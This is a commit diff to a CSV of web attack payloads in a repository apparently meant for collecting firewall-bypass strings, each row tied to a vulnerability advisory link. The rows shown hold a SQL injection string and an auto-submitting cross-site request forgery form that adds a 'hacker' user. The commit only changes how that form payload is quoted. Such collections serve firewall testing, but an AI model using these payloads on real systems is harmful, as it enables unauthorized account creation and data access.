

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Update payloads.twitter.csv

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
@@ -493,2 +493,2 @@ https://vulners.com/github/GHSA-GP6M-FQ6H-CJCX?utm_source=rss&utm_medium=rss&utm
 https://vulners.com/cve/CVE-2024-1923?utm_source=rss&utm_medium=rss&utm_campaign=rss," 1337&#x27;+or+1=1;--+",sqli
-https://vulners.com/github/GHSA-PGPJ-V85Q-H5FM?utm_source=rss&utm_medium=rss&utm_campaign=rss,'&lt;html&gt; &lt;body&gt; &lt;form action="http://localhost:8000/api/add_user/%22hacker%22,%22hacker%22"&gt; &lt;input type="submit" value="Submit request" /&gt; &lt;/form&gt; &lt;script&gt; history.pushState('', '', '/'); document.forms[0].submit(); &lt;/script&gt; &lt;/body&gt; &lt;/html&gt;',xss
+https://vulners.com/github/GHSA-PGPJ-V85Q-H5FM?utm_source=rss&utm_medium=rss&utm_campaign=rss,`&lt;html&gt; &lt;body&gt; &lt;form action="http://localhost:8000/api/add_user/%22hacker%22,%22hacker%22"&gt; &lt;input type="submit" value="Submit request" /&gt; &lt;/form&gt; &lt;script&gt; history.pushState('', '', '/'); document.forms[0].submit(); &lt;/script&gt; &lt;/body&gt; &lt;/html&gt;`,xss
```
